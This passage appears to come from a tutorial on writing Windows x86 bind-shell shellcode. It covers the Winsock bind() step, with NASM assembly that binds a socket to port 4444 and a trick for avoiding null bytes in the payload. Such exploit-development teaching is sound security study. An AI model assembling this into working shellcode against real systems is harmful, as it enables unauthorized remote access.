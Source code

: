 The pointer to the socket handler will be stored in eax, which we copy into ebx to reference later.

## System call: bind

Documentation: <a href="https://docs.microsoft.com/en-us/windows/win32/api/winsock/nf-winsock-bind">https://docs.microsoft.com/en-us/windows/win32/api/winsock/nf-winsock-bind</a>  
Documnetation: <a href="https://docs.microsoft.com/en-us/windows/win32/winsock/sockaddr-2">https://docs.microsoft.com/en-us/windows/win32/winsock/sockaddr-2</a>

Syntax:
```nasm
bind(SOCKET s, const sockaddr *addr, int namelen)
```

Next up we need to bind the socket. The first argument is the pointer to the socket handler, which we have stored in EBX. The second argument should be a pointer to these three values: 
+ The port number, which in this case will be 4444 (0x5c11)
+ The address family. For IPv4 it should be set to AF_INET (0x0002)
+ The IP address it will listen on, which we will set to INADDR_ANY (0x0000) to make the socket listen on all interfaces.

These values will look like the following:
```text
5c110002
00000000
```

The third argument is the size of the second argument, which will be 16 bytes (0x10 in hex).

Notice that there are null bytes in the value for AF_INET (0x0002). This can be solved by storing 0x5c110102 in EAX and doing `dec ah`, which will only decrement the AH section of EAX by one. 

Explanation:
+ eax = 0x5c110102  
+ ax = 0x0102 (lowest 16 bits of eax)
+ al = 0x02 (lowest 8 bits of ax) 
+ ah = 0x01 (highest 8 bits of ax)  

```nasm
xor eax, eax         ; Clear eax
push eax             ; Push 0 on the stack to define INADDR_ANY.
mov eax, 0x5c110102 
dec ah               ; eax: 0x5c110102 -> 0x5c110002 (Mitigating null byte)
push eax             ; Push 0x5c110002 on stack
mov eax, esp         ; Since the 2nd arg is expected to be a pointer, we store the pointer to 0x5c110002 in eax
push 0x10            ; Arg3 (namelen) = 16 bytes
push eax             ; Arg2 (*addr) = eax -> 0x5c110002 (5c11 = 4444, 0002 = AF_INET)
push ebx             ; Arg1 (s) = WSASocket() handler
mov eax, 0x71AB4480  ; Address to bind()
call eax
```

The stack looks like this right before calling bind():

```text
   Addr        Value
   00000001    00000064 (Arg1, SOCKET s)
   00000002    00000004 (Arg2, const sockaddr *addr) ---
   00000003    00000010 (Arg3, int namelenn)            |
-> 00000004    5c110002                                 |
|  00000005    00000000 (INADDR_ANY)                    | 
--------------------------------------------------------
```
